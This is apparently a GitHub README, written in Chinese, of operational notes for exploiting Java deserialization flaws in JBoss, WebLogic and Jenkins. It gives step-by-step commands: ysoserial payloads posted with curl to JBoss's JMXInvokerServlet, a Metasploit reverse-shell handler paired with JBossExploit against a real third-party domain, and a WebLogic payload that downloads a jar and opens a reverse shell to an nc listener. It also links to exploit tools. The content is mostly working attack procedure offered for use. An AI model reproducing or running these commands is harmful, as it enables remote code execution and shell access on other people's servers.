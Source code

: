 ## JavaDeserialization


###jboss：

#####一

```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >/tmp/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```

[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  

####二  
JBossExploit運行需要外網地址。  

session 1:

```
▶ssh kali
root@Kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/shell/reverse_tcp
msf exploit(handler) > set LHOST 123.123.123.123
msf exploit(handler) > set LPORT 999
msf exploit(handler) > exploit
```

session 2:

```
▶ssh kali
root@Kali:~# java -jar JBossExploit.jar -lhost 123.123.123.123 -lport 999 -rhost baidu.com -rport 80 -srvport 4040
```

[JBossExploit](https://github.com/njfox/Java-Deserialization-Exploit)  

###weblogic：  

```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
```

Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  
已打包為weblogic.jar，iswin.jar下載地址為~~原作者提供~~我的地址，有需要重新編譯源碼替換class就好啦。   
~~替換成[github](https://github.com/hackzx/JavaDeserialization/raw/master/iswin.jar)的jar。~~測試不能。

```
usage:  
  java -jar weblogic.jar [ip/domain] [port] [out_payload_file]

```

```
▶ java -jar weblogic.jar [ReverseIP] 888 /tmp/payload
▶ python weblogic.py [TargetIP] 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```

[weblogic.jar](https://github.com/hackzx/JavaDeserialization/raw/master/weblogic.jar)  
[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

###jenkins

https://github.com/CaledoniaProject/jenkins-cli-exploit  


--

更多更多的鏈接：  
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  